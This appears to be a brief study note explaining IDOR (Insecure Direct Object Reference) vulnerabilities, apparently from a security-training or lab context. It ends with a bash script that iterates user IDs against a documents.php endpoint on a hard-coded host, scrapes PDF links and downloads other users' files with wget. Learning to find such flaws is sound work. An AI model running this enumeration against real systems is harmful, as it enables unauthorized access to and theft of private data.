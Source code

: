 **IDOR** stands for:

> **Insecure Direct Object Reference**

It means:

> A user can **access something they shouldn’t**, like **another user’s file, profile, or data**, just by changing a value in the URL or request.

- Find URLs or API calls that contain some kind of **ID, filename, or object**
- Try changing that ID to see **other people's stuff**
- If it works → It's a **vulnerability!**

simple bash script for multiple calls (if GET request is not working change it to POST or others)
```bash
#!/bin/bash

url="http://94.237.57.211:44167"

for i in {1..50}; do
  for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "/documents.*?.pdf"); do
    wget -q $url/$link
  done
done
```

